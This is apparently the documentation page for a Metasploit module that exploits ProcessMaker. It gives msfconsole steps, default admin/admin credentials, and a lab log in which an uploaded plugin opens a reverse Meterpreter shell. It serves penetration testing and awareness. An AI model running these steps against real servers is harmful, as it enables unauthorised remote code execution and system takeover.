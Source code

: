 ## Description

  This module will generate and upload a plugin to ProcessMaker resulting in execution of PHP code as the web server user.

  Credentials for a valid user account with Administrator roles is required to run this module.


## Vulnerable Application

  [ProcessMaker](https://www.processmaker.com/) workflow management software allows public and private organizations to automate document intensive, approval-based processes across departments and systems. Business users and process experts with no programming experience can design and run workflows.

  This module has been tested successfully on ProcessMaker versions:

  * 1.6-4276, 2.0.23, 3.0 RC 1, 3.2.0, 3.2.1 on Windows 7 SP 1
  * 3.2.0 on Debian Linux 8

  Source and Installers:

  * [ProcessMaker](https://sourceforge.net/projects/processmaker/files/ProcessMaker/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_plugin_upload`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [USERNAME]` (default: `admin`)
  5. Do: `set PASSWORD [PASSWORD]` (default: `admin`)
  6. Do: `set WORKSPACE [WORKSPACE]` (default: `workflow`)
  7. Do: `run`
  8. You should get a session


## Options

### Username

  The username for a ProcessMaker user with Administrator roles (default: `admin`).

### Password

  The password for the ProcessMaker user (default: `admin`).

  The default password for the `admin` user is `admin` on ProcessMaker versions 1.x and 2.x.

  For ProcessMaker 3.x onwards, the default password is specified during installation and cannot be the same as the username.

  However; when creating a new workspace a new user with Administrator roles is also created. The default username and password for the new user are `admin` and `admin` respectively.

### Workspace

  The ProcessMaker workspace for which the specified user has Administrator roles. (default: `workflow`)


## Scenarios

  ```
  msf > use exploit/multi/http/processmaker_plugin_upload 
  msf exploit(processmaker_plugin_upload) > set rhost 172.16.191.202
  rhost => 172.16.191.202
  msf exploit(processmaker_plugin_upload) > set username admin
  username => admin
  msf exploit(processmaker_plugin_upload) > set password admin
  password => admin
  msf exploit(processmaker_plugin_upload) > set workspace sample
  workspace => sample
  msf exploit(processmaker_plugin_upload) > set rport 8080
  rport => 8080
  msf exploit(processmaker_plugin_upload) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] Authenticating as user 'admin'
  [+] 172.16.191.202:8080 Authenticated as user 'admin'
  [*] 172.16.191.202:8080 Uploading plugin 'zqkMpDOiIlNEvhkNnV' (23552 bytes)
  [*] Sending stage (33986 bytes) to 172.16.191.202
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.202:36592) at 2017-06-10 04:21:25 -0400
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV-.tar
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV.php
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV/class.zqkMpDOiIlNEvhkNnV.php

  meterpreter > getuid
  Server username: user (1000)
  meterpreter > sysinfo 
  Computer    : debian
  OS          : Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.43-2 (2017-04-30) x86_64
  Meterpreter : php/linux
  ```

